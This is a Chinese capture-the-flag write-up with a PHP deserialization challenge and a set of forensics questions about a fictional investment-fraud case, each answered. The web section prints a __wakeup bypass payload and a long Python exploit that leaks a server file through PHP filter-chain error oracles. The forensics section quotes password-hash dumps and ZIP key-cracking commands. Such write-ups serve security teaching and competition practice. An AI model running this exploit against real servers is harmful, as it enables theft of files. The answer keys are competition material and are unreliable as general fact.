

# 初赛
## Web
### LovePHP
```php
<?php class Saferman{  
    public $check = True;  
    public function __destruct(){  
        if($this->check === True){            file($_GET['secret']);  
        }  
    }  
    public function __wakeup(){        $this->check=False;  
    }  
}  
if(isset($_GET['my_secret.flag'])){    unserialize($_GET['my_secret.flag']);  
}else{    highlight_file(__FILE__);  
}
```

wakeup的绕过，这里是自定义类反序列化的一个bug


[PHP :: Bug #81151 :: bypass __wakeup](https://bugs.php.net/bug.php?id=81151)

php在转化事会将.转为下划线第一个位置用`[`就可以绕过
payload： `?secret=&my[secret.flag=C:8:"Saferman":0:{}`

file()可以适用file伪协议

[Webの侧信道初步认识 | Boogiepop Doesn't Laugh (boogipop.com)](https://boogipop.com/2023/05/08/Web%E4%BE%A7%E4%BF%A1%E9%81%93%E5%88%9D%E6%AD%A5%E8%AE%A4%E8%AF%86/)
在url那里改一下就可以

exp
```python
import requests  
import sys  
from base64 import b64decode  
  
"""  
THE GRAND IDEA:  
We can use PHP memory limit as an error oracle. Repeatedly applying the convert.iconv.L1.UCS-4LE  
filter will blow up the string length by 4x every time it is used, which will quickly cause  
500 error if and only if the string is non empty. So we now have an oracle that tells us if  
the string is empty.  
  
THE GRAND IDEA 2:  
The dechunk filter is interesting.  
https://github.com/php/php-src/blob/01b3fc03c30c6cb85038250bb5640be3a09c6a32/ext/standard/filters.c#L1724  
It looks like it was implemented for something http related, but for our purposes, the interesting  
behavior is that if the string contains no newlines, it will wipe the entire string if and only if  
the string starts with A-Fa-f0-9, otherwise it will leave it untouched. This works perfect with our  
above oracle! In fact we can verify that since the flag starts with D that the filter chain  
  
dechunk|convert.iconv.L1.UCS-4LE|convert.iconv.L1.UCS-4LE|[...]|convert.iconv.L1.UCS-4LE  
  
does not cause a 500 error.  
  
THE REST:  
So now we can verify if the first character is in A-Fa-f0-9. The rest of the challenge is a descent  
into madness trying to figure out ways to:  
- somehow get other characters not at the start of the flag file to the front  
- detect more precisely which character is at the front  
"""  
  
  
def join(*x):  
    return '|'.join(x)  
  
  
def err(s):  
    print(s)  
    raise ValueError  
  
  
def req(s):  
    data = {  
        '0': f'php://filter/{s}/resource=/flag'  
    }  
    return requests.get('http://123.57.73.24:44211/index.php?my[secret.flag=C:8:"Saferman":0: {}&secret='+f'php://filter/{s}/resource=/flag').status_code == 500  
  
  
"""  
Step 1:  
The second step of our exploit only works under two conditions:  
- String only contains a-zA-Z0-9  
- String ends with two equals signs  
  
base64-encoding the flag file twice takes care of the first condition.  
  
We don't know the length of the flag file, so we can't be sure that it will end with two equals  
signs.  
  
Repeated application of the convert.quoted-printable-encode will only consume additional  
memory if the base64 ends with equals signs, so that's what we are going to use as an oracle here.  
If the double-base64 does not end with two equals signs, we will add junk data to the start of the  
flag with convert.iconv..CSISO2022KR until it does.  
"""  
  
blow_up_enc = join(*['convert.quoted-printable-encode'] * 1000)  
blow_up_utf32 = 'convert.iconv.L1.UCS-4LE'  
blow_up_inf = join(*[blow_up_utf32] * 50)  
  
header = 'convert.base64-encode|convert.base64-encode'  
  
# Start get baseline blowup  
print('Calculating blowup')  
baseline_blowup = 0  
for n in range(100):  
    payload = join(*[blow_up_utf32] * n)  
    if req(f'{header}|{payload}'):  
        baseline_blowup = n  
        break  
else:  
    err('something wrong')  
  
print(f'baseline blowup is {baseline_blowup}')  
  
trailer = join(*[blow_up_utf32] * (baseline_blowup - 1))  
  
assert req(f'{header}|{trailer}') == False  
  
print('detecting equals')  
j = [  
    req(f'convert.base64-encode|convert.base64-encode|{blow_up_enc}|{trailer}'),  
    req(f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.base64-encode{blow_up_enc}|{trailer}'),  
    req(f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.iconv..CSISO2022KR|convert.base64-encode|{blow_up_enc}|{trailer}')  
]  
print(j)  
if sum(j) != 2:  
    err('something wrong')  
if j[0] == False:  
    header = f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.base64-encode'  
elif j[1] == False:  
    header = f'convert.base64-encode|convert.iconv..CSISO2022KR|convert.iconv..CSISO2022KRconvert.base64-encode'  
elif j[2] == False:  
    header = f'convert.base64-encode|convert.base64-encode'  
else:  
    err('something wrong')  
print(f'j: {j}')  
print(f'header: {header}')  
  
"""  
Step two:  
Now we have something of the form  
[a-zA-Z0-9 things]==  
  
Here the pain begins. For a long time I was trying to find something that would allow me to strip  
successive characters from the start of the string to access every character. Maybe something like  
that exists but I couldn't find it. However, if you play around with filter combinations you notice  
there are filters that *swap* characters:  
  
convert.iconv.CSUNICODE.UCS-2BE, which I call r2, flips every pair of characters in a string:  
abcdefgh -> badcfehg  
  
convert.iconv.UCS-4LE.10646-1:1993, which I call r4, reverses every chunk of four characters:  
abcdefgh -> dcbahgfe  
  
This allows us to access the first four characters of the string. Can we do better? It turns out  
YES, we can! Turns out that convert.iconv.CSUNICODE.CSUNICODE appends <0xff><0xfe> to the start of  
the string:  
  
abcdefgh -> <0xff><0xfe>abcdefgh  
  
The idea being that if we now use the r4 gadget, we get something like:  
ba<0xfe><0xff>fedc  
  
And then if we apply a convert.base64-decode|convert.base64-encode, it removes the invalid  
<0xfe><0xff> to get:  
bafedc  
  
And then apply the r4 again, we have swapped the f and e to the front, which were the 5th and 6th  
characters of the string. There's only one problem: our r4 gadget requires that the string length  
is a multiple of 4. The original base64 string will be a multiple of four by definition, so when  
we apply convert.iconv.CSUNICODE.CSUNICODE it will be two more than a multiple of four, which is no  
good for our r4 gadget. This is where the double equals we required in step 1 comes in! Because it  
turns out, if we apply the filter  
convert.quoted-printable-encode|convert.quoted-printable-encode|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7  
  
It will turn the == into:  
+---AD0-3D3D+---AD0-3D3D  
  
And this is magic, because this corrects such that when we apply the  
convert.iconv.CSUNICODE.CSUNICODE filter the resuting string is exactly a multiple of four!  
  
Let's recap. We have a string like:  
abcdefghij==  
  
Apply the convert.quoted-printable-encode + convert.iconv.L1.utf7:  
abcdefghij+---AD0-3D3D+---AD0-3D3D  
  
Apply convert.iconv.CSUNICODE.CSUNICODE:  
<0xff><0xfe>abcdefghij+---AD0-3D3D+---AD0-3D3D  
  
Apply r4 gadget:  
ba<0xfe><0xff>fedcjihg---+-0DAD3D3---+-0DAD3D3  
  
Apply base64-decode | base64-encode, so the '-' and high bytes will disappear:  
bafedcjihg+0DAD3D3+0DAD3Dw==  
  
Then apply r4 once more:  
efabijcd0+gh3DAD0+3D3DAD==wD  
  
And here's the cute part: not only have we now accessed the 5th and 6th chars of the string, but  
the string still has two equals signs in it, so we can reapply the technique as many times as we  
want, to access all the characters in the string ;)  
"""  
  
flip = "convert.quoted-printable-encode|convert.quoted-printable-encode|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.L1.utf7|convert.iconv.CSUNICODE.CSUNICODE|convert.iconv.UCS-4LE.10646-1:1993|convert.base64-decode|convert.base64-encode"  
r2 = "convert.iconv.CSUNICODE.UCS-2BE"  
r4 = "convert.iconv.UCS-4LE.10646-1:1993"  
  
  
def get_nth(n):  
    global flip, r2, r4  
    o = []  
    chunk = n // 2  
    if chunk % 2 == 1: o.append(r4)  
    o.extend([flip, r4] * (chunk // 2))  
    if (n % 2 == 1) ^ (chunk % 2 == 1): o.append(r2)  
    return join(*o)  
  
  
"""  
Step 3:  
This is the longest but actually easiest part. We can use dechunk oracle to figure out if the first  
char is 0-9A-Fa-f. So it's just a matter of finding filters which translate to or from those  
chars. rot13 and string lower are helpful. There are probably a million ways to do this bit but  
I just bruteforced every combination of iconv filters to find these.  
  
Numbers are a bit trickier because iconv doesn't tend to touch them.  
In the CTF you coud porbably just guess from there once you have the letters. But if you actually want a full leak you can base64 encode a third time and use the first two letters of the resulting  
string to figure out which number it is.  
"""  
  
rot1 = 'convert.iconv.437.CP930'  
be = 'convert.quoted-printable-encode|convert.iconv..UTF7|convert.base64-decode|convert.base64-encode'  
o = ''  
  
  
def find_letter(prefix):  
    if not req(f'{prefix}|dechunk|{blow_up_inf}'):  
        # a-f A-F 0-9  
        if not req(f'{prefix}|{rot1}|dechunk|{blow_up_inf}'):  
            # a-e  
            for n in range(5):  
                if req(f'{prefix}|' + f'{rot1}|{be}|' * (n + 1) + f'{rot1}|dechunk|{blow_up_inf}'):  
                    return 'edcba'[n]  
                    break  
            else:  
                err('something wrong')  
        elif not req(f'{prefix}|string.tolower|{rot1}|dechunk|{blow_up_inf}'):  
            # A-E  
            for n in range(5):  
                if req(f'{prefix}|string.tolower|' + f'{rot1}|{be}|' * (n + 1) + f'{rot1}|dechunk|{blow_up_inf}'):  
                    return 'EDCBA'[n]  
                    break  
            else:  
                err('something wrong')  
        elif not req(f'{prefix}|convert.iconv.CSISO5427CYRILLIC.855|dechunk|{blow_up_inf}'):  
            return '*'  
        elif not req(f'{prefix}|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):  
            # f  
            return 'f'  
        elif not req(f'{prefix}|string.tolower|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):  
            # F  
            return 'F'  
        else:  
            err('something wrong')  
    elif not req(f'{prefix}|string.rot13|dechunk|{blow_up_inf}'):  
        # n-s N-S  
        if not req(f'{prefix}|string.rot13|{rot1}|dechunk|{blow_up_inf}'):  
            # n-r  
            for n in range(5):  
                if req(f'{prefix}|string.rot13|' + f'{rot1}|{be}|' * (n + 1) + f'{rot1}|dechunk|{blow_up_inf}'):  
                    return 'rqpon'[n]  
                    break  
            else:  
                err('something wrong')  
        elif not req(f'{prefix}|string.rot13|string.tolower|{rot1}|dechunk|{blow_up_inf}'):  
            # N-R  
            for n in range(5):  
                if req(f'{prefix}|string.rot13|string.tolower|' + f'{rot1}|{be}|' * (  
                        n + 1) + f'{rot1}|dechunk|{blow_up_inf}'):  
                    return 'RQPON'[n]  
                    break  
            else:  
                err('something wrong')  
        elif not req(f'{prefix}|string.rot13|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):  
            # s  
            return 's'  
        elif not req(f'{prefix}|string.rot13|string.tolower|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):  
            # S  
            return 'S'  
        else:  
            err('something wrong')  
    elif not req(f'{prefix}|{rot1}|string.rot13|dechunk|{blow_up_inf}'):  
        # i j k  
        if req(f'{prefix}|{rot1}|string.rot13|{be}|{rot1}|dechunk|{blow_up_inf}'):  
            return 'k'  
        elif req(f'{prefix}|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):  
            return 'j'  
        elif req(f'{prefix}|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):  
            return 'i'  
        else:  
            err('something wrong')  
    elif not req(f'{prefix}|string.tolower|{rot1}|string.rot13|dechunk|{blow_up_inf}'):  
        # I J K  
        if req(f'{prefix}|string.tolower|{rot1}|string.rot13|{be}|{rot1}|dechunk|{blow_up_inf}'):  
            return 'K'  
        elif req(f'{prefix}|string.tolower|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):  
            return 'J'  
        elif req(  
                f'{prefix}|string.tolower|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):  
            return 'I'  
        else:  
            err('something wrong')  
    elif not req(f'{prefix}|string.rot13|{rot1}|string.rot13|dechunk|{blow_up_inf}'):  
        # v w x  
        if req(f'{prefix}|string.rot13|{rot1}|string.rot13|{be}|{rot1}|dechunk|{blow_up_inf}'):  
            return 'x'  
        elif req(f'{prefix}|string.rot13|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):  
            return 'w'  
        elif req(  
                f'{prefix}|string.rot13|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):  
            return 'v'  
        else:  
            err('something wrong')  
    elif not req(f'{prefix}|string.tolower|string.rot13|{rot1}|string.rot13|dechunk|{blow_up_inf}'):  
        # V W X  
        if req(f'{prefix}|string.tolower|string.rot13|{rot1}|string.rot13|{be}|{rot1}|dechunk|{blow_up_inf}'):  
            return 'X'  
        elif req(  
                f'{prefix}|string.tolower|string.rot13|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):  
            return 'W'  
        elif req(  
                f'{prefix}|string.tolower|string.rot13|{rot1}|string.rot13|{be}|{rot1}|{be}|{rot1}|{be}|{rot1}|dechunk|{blow_up_inf}'):  
            return 'V'  
        else:  
            err('something wrong')  
    elif not req(f'{prefix}|convert.iconv.CP285.CP280|string.rot13|dechunk|{blow_up_inf}'):  
        # Z  
        return 'Z'  
    elif not req(f'{prefix}|string.toupper|convert.iconv.CP285.CP280|string.rot13|dechunk|{blow_up_inf}'):  
        # z  
        return 'z'  
    elif not req(f'{prefix}|string.rot13|convert.iconv.CP285.CP280|string.rot13|dechunk|{blow_up_inf}'):  
        # M  
        return 'M'  
    elif not req(f'{prefix}|string.rot13|string.toupper|convert.iconv.CP285.CP280|string.rot13|dechunk|{blow_up_inf}'):  
        # m  
        return 'm'  
    elif not req(f'{prefix}|convert.iconv.CP273.CP1122|string.rot13|dechunk|{blow_up_inf}'):  
        # y  
        return 'y'  
    elif not req(f'{prefix}|string.tolower|convert.iconv.CP273.CP1122|string.rot13|dechunk|{blow_up_inf}'):  
        # Y  
        return 'Y'  
    elif not req(f'{prefix}|string.rot13|convert.iconv.CP273.CP1122|string.rot13|dechunk|{blow_up_inf}'):  
        # l  
        return 'l'  
    elif not req(f'{prefix}|string.tolower|string.rot13|convert.iconv.CP273.CP1122|string.rot13|dechunk|{blow_up_inf}'):  
        # L  
        return 'L'  
    elif not req(  
            f'{prefix}|convert.iconv.500.1026|string.tolower|convert.iconv.437.CP930|string.rot13|dechunk|{blow_up_inf}'):  
        # h  
        return 'h'  
    elif not req(  
            f'{prefix}|string.tolower|convert.iconv.500.1026|string.tolower|convert.iconv.437.CP930|string.rot13|dechunk|{blow_up_inf}'):  
        # H  
        return 'H'  
    elif not req(  
            f'{prefix}|string.rot13|convert.iconv.500.1026|string.tolower|convert.iconv.437.CP930|string.rot13|dechunk|{blow_up_inf}'):  
        # u  
        return 'u'  
    elif not req(  
            f'{prefix}|string.rot13|string.tolower|convert.iconv.500.1026|string.tolower|convert.iconv.437.CP930|string.rot13|dechunk|{blow_up_inf}'):  
        # U  
        return 'U'  
    elif not req(f'{prefix}|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):  
        # g  
        return 'g'  
    elif not req(f'{prefix}|string.tolower|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):  
        # G  
        return 'G'  
    elif not req(f'{prefix}|string.rot13|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):  
        # t  
        return 't'  
    elif not req(f'{prefix}|string.rot13|string.tolower|convert.iconv.CP1390.CSIBM932|dechunk|{blow_up_inf}'):  
        # T  
        return 'T'  
    else:  
        err('something wrong')  
  
  
print()  
for i in range(100):  
    prefix = f'{header}|{get_nth(i)}'  
    letter = find_letter(prefix)  
    # it's a number! check base64  
    if letter == '*':  
        prefix = f'{header}|{get_nth(i)}|convert.base64-encode'  
        s = find_letter(prefix)  
        if s == 'M':  
            # 0 - 3  
            prefix = f'{header}|{get_nth(i)}|convert.base64-encode|{r2}'  
            ss = find_letter(prefix)  
            if ss in 'CDEFGH':  
                letter = '0'  
            elif ss in 'STUVWX':  
                letter = '1'  
            elif ss in 'ijklmn':  
                letter = '2'  
            elif ss in 'yz*':  
                letter = '3'  
            else:  
                err(f'bad num ({ss})')  
        elif s == 'N':  
            # 4 - 7  
            prefix = f'{header}|{get_nth(i)}|convert.base64-encode|{r2}'  
            ss = find_letter(prefix)  
            if ss in 'CDEFGH':  
                letter = '4'  
            elif ss in 'STUVWX':  
                letter = '5'  
            elif ss in 'ijklmn':  
                letter = '6'  
            elif ss in 'yz*':  
                letter = '7'  
            else:  
                err(f'bad num ({ss})')  
        elif s == 'O':  
            # 8 - 9  
            prefix = f'{header}|{get_nth(i)}|convert.base64-encode|{r2}'  
            ss = find_letter(prefix)  
            if ss in 'CDEFGH':  
                letter = '8'  
            elif ss in 'STUVWX':  
                letter = '9'  
            else:  
                err(f'bad num ({ss})')  
        else:  
            err('wtf')  
  
    print(end=letter)  
    o += letter  
    sys.stdout.flush()  
  
"""  
We are done!! :)  
"""  
  
print()  
d = b64decode(o.encode() + b'=' * 4)  
# remove KR padding  
d = d.replace(b'$)C', b'')  
print(b64decode(d))
```

## Misc
### ez_Forensics
找到了table.zip readme.txt 鼠标轨迹软件和轨迹记录


`volatility -f mem.raw --profile=Win7SP1x64 filescan >file.txt`


导出
`volatility -f mem.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000007e434590 -D ./`


`volatility -f mem.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000007d572f20 -D ./`


画图软件记录一下


readme.txt打开是16进制。cyberchef转一下


`volatility -f mem.raw --profile=Win7SP1x64 editbox`

字面意思是以前有过就editbox 


`volatility -f mem.raw --profile=Win7SP1x64 dumpfiles -Q 0x000000007d41cb50 -D ./`

`bkcrack.exe -C .\table.zip -c readme.txt -p .\readme.txt`

`bkcrack -C table.zip -k 6296ee7a 28ddd715 d09626ae -U unlock.zip passwd`
bkcrack解密


解压拿到png


和上面的画图结合

`a91e37bf`

镜像里面有个密文

`SECRET=U2FsdGVkX19dHyROKCNrT5BAJk9asDpaZ8L45vr9s9D2Yi9/OX5Xl6lEmhd0VoietsmeiLHJjPPG0uSsdxGgr2jzQ00FEMf/VglaSrhwumM=`


`3a-f140-2626195942a0}`
passware


`flag{194a019a-1767-913a-f140-2626195942a0}`
## Reverse
### Story
没删注释


## 取证
### 背景介绍
取证案情介绍： 2021年5月，公安机关侦破了一起投资理财诈骗类案件，受害人陈昊民向公安机关报案称其在微信上认识一名昵称为yang88的网友，在其诱导下通过一款名为维斯塔斯的APP，进行投资理财，被诈骗6万余万元。接警后，经过公安机关的分析，锁定了涉案APP后台服务器。后经过公安机关侦查和研判发现杨某有重大犯罪嫌疑，经过多次摸排后，公安机关在杨某住所将其抓获，并扣押了杨某手机1部、电脑1台，据杨某交代，其网站服务器为租用的云服务器。上述检材已分别制作了镜像和调证，假设本案电子数据由你负责勘验，请结合案情，完成取证题目。

取证检材容器密码：`Hpp^V@FQ6bdWYKMjX=gUPG#hHxw!j@M9`

### APK取证
#### 涉案apk的包名是？[答题格式:com.baid.ccs]


【答案】com.vestas.app

#### 涉案apk的签名序列号是？[答题格式:0x93829bd]

jadx查看为 `0x563b45ca`


#### 涉案apk中DCLOUD_AD_ID的值是？[答题格式:2354642]

DCLOUD_AD_ID值是uni-AD联盟ID，Android平台已经合并到DCLOUD_STREAMAPP_CHANNEL中，已不再使用,DCLOUD_AD_ID值存于AndroidManifest.xml文件中，但非原生开发
【答案】2147483647


#### 涉案apk的服务器域名是？[答题格式:http://sles.vips.com]

全局正则搜素，文件名与功能贴近
【答案】`https://vip.licai.com`


#### 涉案apk的主入口是？[答题格式:com.bai.cc.initactivity]
  android应用程序,由一到多个Activity组成.每个Activity没有很紧密的联系，从这点上看,android应用程序实际上是由多个Activity按照一定的次序拼装起来的, 只不过拼装的过程中,后台传递了一些数据,使得各个Activity之间能比较好的衔接起来.在 android应用程序中,并没有像c++和java这样有main函数来作为应用程序的入口.android应用程序提供的是入口Activity,而非入口函数.**action节点中的android.intent.action.MAIN表明它所在的Activity是整个应用程序的入口点**
【答案】`io.dcloud.PandoraEntry`
 
 ### 手机取证
#### 该镜像是用的什么模拟器？[答题格式:天天模拟器]


logs文件中


【答案】`雷电模拟器`

#### 该镜像中用的聊天软件名称是什么？[答题格式:微信]
vmdk文件导入手机取证


【答案】与你

#### 聊天软件的包名是？[答题格式:com.baidu.ces]


文件夹基本能够看出来

jadx


【答案】com.uneed.yuni

#### 投资理财产品中，受害人最后投资的产品最低要求投资多少钱？[答题格式:1万]
？5万


#### 受害人是经过谁介绍认识王哥？[答题格式:董慧]

这个王哥是谁很抽象，但是应该是华哥介绍


【答案】华哥

### 计算机取证
#### 请给出计算机镜像pc.e01的SHA-1值？[答案格式：字母小写]


【答案】23f861b2e9c5ce9135afc520cbd849677522f54c
#### 给出pc.e01在提取时候的检查员？[答案格式：admin]

#### 请给出嫌疑人计算机内IE浏览器首页地址？[答案格式：http://www.baidu.com]

#### 请给出嫌疑人杨某登录理财网站前台所用账号密码？[答案格式：root/admin]
#### 请给出嫌疑人电脑内pdf文件默认打开程序的当前版本号？[答案格式：xxxx(xx)]

#### 请给出嫌疑人计算机内文件名为“C盘清理.bat”的SHA-1？[答案格式：字母小写]

直接搜素文件 


【答案】17779a8024e00a7c8bcb1bba79c5cd3fab94cb72

#### 请给出嫌疑人Vera Crypt加密容器的解密密码？[答案格式：admin!@#]
#### 请给出嫌疑人电脑内iSCSI服务器对外端口号？[答案格式：8080]
#### 请给出嫌疑人电脑内iSCSI服务器CHAP认证的账号密码？[答案格式：root/admin]
#### 分析嫌疑人电脑内提现记录表，用户“mi51888”提现总额为多少？[答案格式：10000]

### 内存取证
#### 请给出计算机内存创建北京时间？[答案格式：2000-01-11 00:00:00]
`volatility -f memdump.mem imageinfo`


【答案】2023-06-21 01:02:27

#### 请给出用户yang88的LMHASH值？[答案格式：字母小写]
`volatility -f memdump.mem --profile=Win7SP1x64 hashdump`


yang88:1000:aad3b435b51404eeaad3b435b51404ee:46e5597f00c98ae6cf3917b07bcc00be:::

【答案】aad3b435b51404eeaad3b435b51404ee

#### 请给出用户yang88访问过文件“提现记录.xlsx”的北京时间？[答案格式：2000-01-11 00:00:00]

`volatility -f memdump.mem --profile=Win7SP1x64 filescan > file.txt`

无对应文件，先恢复

`volatility -f memdump.mem --profile=Win7SP1x64 mftparser > undel.txt


最后访问时间 Access Date
2023-06-20 16:29:16 UTC+0000  -> 2023-06-21 0:29:16 UTC+0800
【答案】2023-06-21 0:29:16

#### 请给出“VeraCrypt”最后一次执行的北京时间？[答案格式：2000-01-11 00:00:00]
`volatility -f memdump.mem --profile=Win7SP1x64 userassist > exe.txt`


2023-06-20 16:47:41 UTC+0000 -> 2023-06-21 0:47:41 UTC+0800
#### 请给出用户最后一次访问chrome浏览器的进程PID？[答案格式：1234]

`volatility -f memdump.mem --profile=Win7SP1x64 timeliner > timeliner.txt`


【答案】

### 服务器取证
#### 分析涉案服务器，请给出涉案服务器的内核版本？[答案格式：xx.xxx-xxx.xx.xx]
在起仿真时开机的banner有内核信息


#### 分析涉案服务器，请给出MySQL数据库的root账号密码？[答案格式：Admin123]

这里问的mysql数据库应该是他提供的数据库，


【答案】ff1d923939ca2dcf

#### 分析涉案服务器，请给出涉案网站RDS数据库地址？[答题格式: xx-xx.xx.xx.xx.xx]

宝塔面板日志


pc-uf6mmj68r91f78hkj.rwlb.rds.aliyuncs.com
#### 请给出涉网网站数据库版本号? [答题格式: 5.6.00]


5.7.40
#### 请给出嫌疑人累计推广人数？[答案格式：100]
将数据库备份做还原，安装Percona Xtrabackup，qpress
```SHELL
yum install https://repo.percona.com/yum/percona-release-latest.noarch.rpm
yum list | grep percona
yum install percona-xtrabackup-24
yum install qpress
解压xb文件
cat hins261244292_data_20230807143325_qp.xb  | xbstream -x -v -C /www/server/backup/data/
innobackupex --decompress --remove-original /www/server/backup/data
 
```
将/etc/my.cnf中的数据路径更改为新解压的文件夹路径，然后重启


#### 请给出涉案网站后台启用的超级管理员?[答题格式:abc]


admin
#### 投资项目“贵州六盘水市风力发电基建工程”的日化收益为？[答题格式:1.00%]


4.00%
#### 最早访问涉案网站后台的IP地址为[答题格式:8.8.8.8]


183.160.76.194
#### 分析涉案网站数据库或者后台VIP2的会员有多少个[答案格式:100]


【答案】20
#### 分析涉案网站数据库的用户表中账户余额大于零且银行卡开户行归属于上海市的潜在受害人的数量为[答题格式:8]


【答案】2
#### 分析涉案网站数据库或者后台，统计嫌疑人的下线成功提现多少钱？[答题格式:10000.00]
#### 分析涉案网站数据库或者后台受害人上线在平台内共有下线多少人？[答题格式:123]
用户名叫yang88，invicode是 513935


【答案】17
#### 分析涉案网站数据库或者后台网站内下线大于2的代理有多少个？[答题格式:10]

在member表中找inviter出现大于2的数目


【答案】60

#### 分析涉案网站数据库或者后台网站内下线最多的代理真实名字为[答题格式:张三]

在member表中存在invicode 和 inviter

筛选inviter中出现的最多的invicode  来找名字


骆潇原

#### 分析涉案网站数据库或者后台流水明细，本网站总共盈利多少钱[答题格式:10,000.00]

如果单纯从账户数值的加减来计算的话，在moneylog表中有表示金额的值和正负号直接拿来算的话


19882178.77-4803382.39 = 15,078,796.38

【答案】15,078,796.38

这道题个人认为应该考虑将签到这类平台自身提供给用户的金额去除来计算，但是答案是直接算加减的